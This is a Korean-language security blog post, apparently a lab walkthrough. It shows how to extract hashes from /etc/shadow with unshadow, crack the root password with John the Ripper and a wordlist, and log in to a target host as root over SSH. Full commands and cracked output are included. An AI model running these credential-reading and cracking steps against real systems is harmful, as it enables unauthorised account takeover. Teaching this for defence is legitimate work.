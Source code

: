 ```yaml
---
title: John The Ripper - Cracking /etc/shadow file
categories: [Offensive Security, Kali Linux]
tags: [Kali Linux Tools, John The Ripper, unshadow]
image:
  path: /assets/post/2025/Offensive Security/JohnTheRipper.png
  alt: [John The Ripper]
published: true
---
```


리눅스 시스템에서 /etc/shadow 파일은 사용자의 암호화된 패스워드와 패스워드 설정 정책이 작성된 파일입니다. 일반적으로는 관리자 계정과 그룹만이 이 파일을 읽을 수 있기 때문에 크게 문제가 될 일은 없습니다.
하지만 잘못된 권한 설정이나 취약점으로 인해 /etc/shadow 파일 내용 확인이 가능하다면 공격자는 암호화된 패스워드(해시)를 크래킹하여 사용자의 계정을 탈취할 수 있게 됩니다.

오늘은 /etc/shadow 파일이 노출된 경우에 암호화된 패스워드를 크래킹하여 대상 호스트의 쉘(권한)을 획득하는 방법에 대해 알아보겠습니다.

## 사전준비
익스플로잇을 진행하기 위해서는 `John The Ripper` 라는 해시 크래킹 도구가 필요합니다.

### 존 더 리퍼(JTR; John The Ripper) 다운로드

```
(Python code)
wget https://raw.githubusercontent.com/magnumripper/JohnTheRipper/bleeding-jumbo/run/ssh2john.py

(executable binary)
sudo apt-get update
sudo apt-get install john
```

## Exploit
### 1. /etc/shadow 파일 내 암호 해시 추출
```
┌──(kali㉿kali)-[~/Desktop/bhpt/lab/observer]
└─$ unshadow
Usage: unshadow PASSWORD-FILE SHADOW-FILE

┌──(kali㉿kali)-[~/Desktop/bhpt/lab/observer]
└─$ sudo unshadow /etc/passwd /etc/shadow > hash_file
```

### 2. JTR을 활용한 암호 크래킹
```
┌──(kali㉿kali)-[~/Desktop/bhpt/lab/observer]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash_file

[ . . . ]

wearethebest          (root)     
1g 0:00:00:22 15.06% (ETA: 11:13:29) 0.04537g/s 107821p/s 107952c/s 107952C/s 1110034..1106happy
Use the "--show" option to display all of the cracked passwords reliably
Session aborted

┌──(kali㉿kali)-[~/Desktop/bhpt/lab/observer]
└─$ john --show miller_hash                                     
root:wearethebest:0:0:root:/root:/bin/bash

1 password hash cracked, 1 left
```

### 3. 탈취한 패스워드로 루트 계정에 SSH 접속 시도
```
┌──(kali㉿kali)-[~/Desktop/bhpt/lab/observer]
└─$ ssh root@172.31.203.246        
root@172.31.203.246's password: 
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.19.0-1025-aws x86_64)

[ . . . ] 

Last login: Thu Sep 14 05:07:19 2023 from 172.31.0.146
root@ip-172-31-203-246:~# whoami
root
```

`/etc/shadow` 파일 정보가 노출되고 취약한 패스워드 암호화 알고리즘(MD5)이 사용되고 있다면
위와 같이 공격자가 사용자의 계정 권한을 탈취할 수 있으므로 각별히 주의하는 것이 필요하겠습니다.

---

## Reference 
1. https://domdom.tistory.com/612